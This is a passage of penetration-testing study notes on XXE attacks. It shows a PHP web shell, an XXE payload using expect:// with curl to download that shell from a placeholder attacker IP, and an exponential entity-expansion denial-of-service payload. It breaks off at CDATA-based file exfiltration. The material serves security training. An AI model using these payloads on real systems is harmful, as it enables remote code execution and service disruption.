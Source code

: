 **Remote Code Execution**

If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as expect://id, and the page should print the command output. However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute. The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands.
````
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80

<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
````

**Denial of Service**
````
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
````

## Advanced File Disclosure

**Advanced Exfiltration with CDATA**

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. <![CDATA[ FILE_CONTENT ]]>). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.
